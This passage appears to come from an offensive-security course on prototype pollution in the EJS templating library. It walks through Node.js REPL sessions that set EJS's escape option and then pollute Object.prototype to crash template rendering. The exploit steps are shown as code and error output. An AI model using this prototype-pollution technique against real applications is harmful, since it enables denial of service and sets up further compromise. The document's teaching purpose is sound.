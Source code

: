 > Listing 55 - Template Class

Reviewing the beginning of the _Template_ class, we find that the _options_ object is parsed from lines 516-525. However, many values are only set if the value exists. This is a perfect location to inject with a prototype pollution vulnerability.

The _escapeFunction_ value is set to the _opts.escape_ value. If we remember the modifications to the _toString_ function, when an application or library expects a function but instead receives a string, the application crashes.

Let's set this option to a function, as the application expects, and review the output.

```
> o = {
...   "escape" : function (x) {
.....     console.log("Running escape");
.....     return x;
.....   }
... }
{ escape: [Function: escape] }

> ejs.render("Hello, <%= foo %>", {"foo":"world"}, o)
Running escape
'Hello, world'
```

> Listing 56 - Custom Escape Function

Our escape function accepts a parameter(_x_), logs a message, and returns the _x_ parameter. When rendering a template with the _escape_ function, the message is logged and the template is returned.

Next, let's replace the function with a string, and observe the error.

```
> o = {"escape": "bar"}
{ escape: 'bar' }

> ejs.render("Hello, <%= foo %>", {"foo":"world"}, o)
Uncaught TypeError: esc is not a function
    at rethrow (/usr/src/app/node_modules/ejs/lib/ejs.js:342:18)
    at eval (eval at compile (/usr/src/app/node_modules/ejs/lib/ejs.js:662:12), <anonymous>:15:3)
    at anonymous (/usr/src/app/node_modules/ejs/lib/ejs.js:692:17)
    at Object.exports.render (/usr/src/app/node_modules/ejs/lib/ejs.js:423:37)
```

> Listing 57 - Escape Function Set to String

As expected, the application throws an error. We can also verify that we can inject into this option with prototype pollution by polluting the Object prototype and passing in an empty object.

```
> {}.__proto__.escape = "haxhaxhax"
'haxhaxhax'

> ejs.render("Hello, <%= foo %>", {"foo":"world"}, {})
Uncaught TypeError: esc is not a function
    at rethrow (/usr/src/app/node_modules/ejs/lib/ejs.js:342:18)
    at eval (eval at compile (/usr/src/app/node_modules/ejs/lib/ejs.js:662:12), <anonymous>:15:3)
    at anonymous (/usr/src/app/node_modules/ejs/lib/ejs.js:692:17)
    at Object.exports.render (/usr/src/app/node_modules/ejs/lib/ejs.js:423:37)
```
